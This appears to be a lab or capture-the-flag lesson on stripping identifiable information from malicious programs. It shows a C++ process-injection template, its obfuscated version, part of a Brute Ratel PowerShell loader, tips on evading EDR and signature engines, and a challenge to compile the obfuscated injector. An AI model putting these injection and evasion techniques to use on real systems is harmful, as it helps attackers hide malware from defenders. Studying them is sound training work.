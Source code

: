 # Protecting and Stripping Identifiable Information

Identifiable information can be one of the most critical components an analyst uses to dissect and understand a malicious program. By limiting the amount of identifiable information (variables, function names, etc.), attackers increase the chances that analysts cannot reconstruct the program's original function.

At a high level, there are three types of identifiable data to consider:

- **Code structure**
- **Object names**
- **File/compilation properties**

This document breaks down the core concepts of each, with practical examples.

---

## Object Names

Object names provide significant insight into a program's functionality and can reveal the purpose of a function. While an analyst can deduce a function's purpose from its behavior, this is much harder without contextual names.

The importance of literal object names depends on the language:

- **Interpreted languages** (e.g., Python, PowerShell): All objects matter and must be modified.
- **Compiled languages** (e.g., C, C#): Only objects appearing in strings are generally significant, often due to IO operations.

The white paper *Layered Obfuscation Taxonomy* summarizes these practices under the code-element layer’s meaningless identifiers method.

### Example: Compiled Language (C++)

Below is a process injector in C++ that reports its status to the command line:

```cpp
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    string leaked = "This was leaked in the strings";

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    cout << "Handle obtained for" << processHandle;
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    cout << "Buffer Created";
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    cout << "Process written with buffer" << remoteBuffer;
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
    cout << "Closing handle" << processHandle;
    cout << leaked;

    return 0;
}
```

#### String Analysis

Running `strings` on the compiled binary reveals leaked identifiers and messages:

```
leaked
shellcode
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
```

#### Obfuscated Version

By removing comments and replacing meaningful identifiers:

```cpp
#include "windows.h"

int main(int argc, char* argv[])
{
    unsigned char a[] = "";

    HANDLE b;
    HANDLE c;
    PVOID d;

    b = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    d = VirtualAllocEx(b, NULL, sizeof a, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(b, d, a, sizeof a, NULL);
    c = CreateRemoteThread(b, NULL, 0, (LPTHREAD_START_ROUTINE)d, NULL, 0, NULL);
    CloseHandle(b);

    return 0;
}
```

Now, there is no identifiable string information, making the program safer from string analysis.

---

### Example: Interpreted Language (PowerShell)

Below is an obfuscated PowerShell loader (Badger from BRC4 Community Kit):

```powershell
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
# ... (other byte arrays)
function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
# ... (other functions)
```

Some cmdlets and functions are kept in their original state to avoid raising suspicion or entropy, which could trigger EDR alerts.

---

## Code Structure

Code structure can be problematic if not addressed, as it may lead to signatures or easier reverse engineering. Techniques include:

- **Junk code** and **reordering code**: Add complexity to interpreted programs.
- **Separation of related code**: Randomizes code occurrence to evade heuristic signature engines.

---

## File & Compilation Properties

Minor aspects, such as compilation method, can aid analysts. For example, compiling as a debug build includes symbol files with global/local variables, function names, and entry points.

**Best practices:**

- Compile in **Release** mode.
- Use tools like `strip` to remove symbols from binaries.

Example command to strip symbols:

```sh
strip binaryfile.exe
```

Other properties to consider: entropy, hash, etc.

---

## Challenge

Using the knowledge from this task, remove meaningful identifiers or debug information from the following C++ source code. Compile the obfuscated code using MingW32-G++ and submit it as `challenge-8.exe`.

```cpp
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    string leaked = "This was leaked in the strings";

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    cout << "Handle obtained for" << processHandle;
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    cout << "Buffer Created";
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    cout << "Process written with buffer" << remoteBuffer;
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);
    cout << "Closing handle" << processHandle;
    cout << leaked;

    return 0;
}
```

**Note:** The file name must be `challenge-8.exe` to receive the flag.

